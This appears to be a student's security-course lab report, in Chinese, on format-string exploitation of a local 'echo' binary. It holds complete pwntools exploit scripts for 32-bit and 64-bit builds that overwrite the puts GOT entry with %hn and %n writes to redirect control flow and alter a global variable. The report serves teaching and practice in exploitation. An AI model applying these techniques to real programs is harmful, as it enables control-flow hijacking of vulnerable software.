## Report of Lab3

​																																王睿 3180103650

### 1. fmt32

#### 1.1 劫持控制流

- 首先，我们先通过`checksec echo`查看下echo开启的安全选项，可以看到RELRO选项为"Partial RELRO"，且未启用PIE

  

- 同时，利用`readelf -S echo`命令看到GOT具有写权限

  

综上，我们基本可以确定要使用GOT覆写技术，利用echo.c中的`printf(buffer)`的FSB漏洞，完成进程流劫持。

- 为了确定具体要覆写哪个GOT entry，以及具体的值，我们可以看到在echo.c中调用完`printf(buffer)`后，调用了`puts()`，因此我们需要将`puts()`的GOT的内容修改为`target_3180103650()`


- `puts()`的GOT所在位置可以通过`objdump -R echo`来查看，位于`0x0804c06c`处

  

- 而`target_3180103650()`函数的地址则可以通过gdb查看，位于`0x080499d7`处

  

  至此，我们已经明确了思路：通过两次修改两字节，分别将`0x0804c06c`处的两字节修改为`0x99d7`，``0x0804c06ce``处的两字节修改为`0x0804`，接下来的任务就是构造payload

- 首先判断printf初始的va_list和buffer[]的距离。通过输入`AAAA`以及一系列的`%x.`可以看到在第七个`%x`处输出了字符A的ASCII码: 41，由此可以知道va_list的初始位置需要6个`%x`来达到buffer[]

  

- 所以，我们可以编写如下exploit代码，两次分别修改puts_got的两个字节的数据，使得程序在`printf(buffer)`后会执行puts，跳到`target_3180103650()`处，

  

如下是成功修改控制流但没有成功修改变量的结果



#### 1.2 修改全局变量id

- 而要修改全局变量`id`也是一样的方法，每次修改两字节，修改两次，只不过要对学号以及`target_3180103650()`函数地址的大小做一个排序，然后一次确定好要每次要输出多少字节

- 如下是修改后的explooit.py代码

  

- 如下是成功修改控制流且修改了全局变量`id`的结果



完整的exploit.py代码如下：

```python
from pwn import *
import sys

#context.log_level = 'DEBUG'

p = process('./echo', env={'LD_LIBRARY_PATH':'.'})

target = 0x080499d7
puts_got = 0x0804c06c

p.recvuntil("&id = 0x")
id_addr = p.recvuntil("\n", drop = True)
id_addr = int(id_addr, 16)

payload  = p32(puts_got + 2)
payload += "@@@@"
payload += p32(id_addr)
payload += "@@@@"
payload += p32(puts_got)
payload += "@@@@"
payload += p32(id_addr + 2)
payload += "%.8x" * 5 + "%." + str(0x0804 - 4 * 7 - 5 * 8) + "x%hn%." \
                             + str(0x87E2 - 0x0804) + "x%hn%." \
                             + str(0x99D7 - 0x87E2) + "x%hn%." \
                             + str(0xBD8C - 0x99D7) + "x%hn" 

p.recvuntil("charecters ...")
p.send(payload)
p.recv()
p.interactive()
```


### 2. fmt64

#### 2.1 fmt32与fmt64区别

​	64位系统中会出现\x00截断的现象，如果我们跟32位中构造payload方式一样，地址在前，格式化字符串在后，则会出现printf中的格式化字符串被截断



可以看到，图中我们send内的信息确实如期发送了，但是在printf输出时，recv()接收到的数据仅有开头的地址，没有后面的格式化字符串。这是因为地址经过`p64()`后末尾出现了很多`\x00`，而printf在读到`\x00`就认为字符串结束了，不会继续后面的输出。因此，在64位FSB中，我们需要将地址放在payload的末尾。

#### 2.2 劫持控制流

> 发现用课上讲的单纯的设置%x来逐个确定位置在这种情况下很难用，所以采用了类似于`%7$5x`这种写法

- 因为将payload放在末尾，因此需要知道puts_got地址在栈中的位置，为此我们需要将puts_got存在栈上的位置固定，所以写了一个`pad(s)`函数，将s字符串后面填充满（256-16）个`\x90`字符。（256-16是因为payload最后的两个p64一共占用了16个字节）

- puts_got在栈上的位置固定后，我们就可以通过输入连续的`%p`来观察输出，确定puts_got的位置。通过测试可以看到，puts_got应该在第37个%p处。

  

- 接下来就可以编写exploit代码了，只需要将栈上第36和37个字节的位置修改为`%n`即可。

  具体如下：

  

  需要注意的是，put_got是8字节的，而因此，我们不仅要修改低4字节至`0x00401dd6`，高4字节应该清零（即处理高位地址时使用`%n`，而不是`%hn`）

- 截图如下：



#### 2.3 修改全局变量id

因为测试了一下发现id的地址是固定的，就偷了个懒直接用了（机器确实开启了ASLR

于是就可以对地址大小排个序，从小到大修改。需要注意的是，这里需要重新对各个地址在栈中的位置做一次定位，且此时的`pad(s)`函数后方填充的字符数量也从原来的（256-16）变成了（256-32）



实验截图如下：



```python
from pwn import *

#context.log_level = 'DEBUG'

def pad(s):
    return s+"\x90"*(256-len(s)-32)

p = process('./echo', env = {'LD_LIBRARY_PATH':'.'})

puts_got = 0x0000000000603030

id_addr  = 0x0000000000603218

target   = 0x401dd6

payload  = "BBBBCCCC"
payload += "%" + str(0x0040 - len(payload)) + "x"
payload += "%34$n"
payload += "%" + str(0x1DD6 - 0x0040) + "x"
payload += "%35$hn"
payload += "%" + str(0x87E2 - 0x1DD6) + "x"
payload += "%36$hn"
payload += "%" + str(0xBD8C - 0x87E2) + "x"
payload += "%37$n"

payload  = pad(payload) 
payload += p64(puts_got+2)
payload += p64(puts_got)
payload += p64(id_addr)
payload += p64(id_addr+2)

p.recvuntil("...")
p.send(payload)
p.recv()
p.interactive()
```


### 3. bonus

因为最近ddl扎堆，没有时间研究...后面找时间好好学习一下

